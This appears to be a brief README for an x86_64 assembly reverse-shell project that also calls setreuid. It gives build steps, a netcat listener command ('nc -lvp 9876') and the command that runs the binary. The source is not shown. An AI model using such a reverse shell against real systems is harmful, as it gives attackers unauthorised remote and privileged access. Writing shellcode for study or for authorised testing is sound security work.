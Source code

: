 # x86_64

Reverse shell + setreuid in ASM Intel 64 bits.
Use Makefile to build the project fastly

	$ Make

Open another terminal then :

	$ nc -lvp 9876

In the previous one, do :

	$ ./prssr64


Foobar.
